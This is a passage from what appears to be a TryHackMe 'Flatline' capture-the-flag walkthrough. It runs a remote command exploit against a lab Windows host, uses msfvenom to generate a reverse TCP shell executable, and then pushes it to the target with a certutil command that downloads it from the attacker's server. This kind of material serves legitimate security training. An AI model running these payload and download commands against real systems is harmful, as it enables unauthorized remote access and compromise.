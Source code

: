```python
        print(response)
    else:
        print('Authentication failed')
        sys.exit(1)
else:
    print('Not prompted for authentication, likely not vulnerable')
    sys.exit(1)
```

Execute the file with the `cmd` argument as `whoami` for testing connection

```tsx
┌──(kali㉿kali)-[~/TryHackMe/Flatline]
└─$ python3 47799.py 10.10.57.92 "whoami"
Authenticated
Content-Type: api/response
Content-Length: 25

win-eom4pk0578n\nekrotic
```

The file executed successfully! Now it’s time to create reverse shell and upload it to the target machine.

# Gain Access

Because the target machine is running within **************Windows************** OS → The reverse payload should be the **************windows************** type

```tsx
┌──(kali㉿kali)-[~/TryHackMe/Flatline]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.8.97.213 LPORT=4444 -f exe -o revShell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: revShell.exe
```

The reverse shell created → Upload it by `certutil` or `curl`

```tsx
┌──(kali㉿kali)-[~/TryHackMe/Flatline]
└─$ python3 47799.py 10.10.57.92 "certutil -urlcache -split -f http://10.8.97.213:8080/revShell.exe"
Authenticated
Content-Type: api/response
Content-Length: 94

****  Online  ****
  000000  ...
  01204a
CertUtil: -URLCache command completed successfully.
```
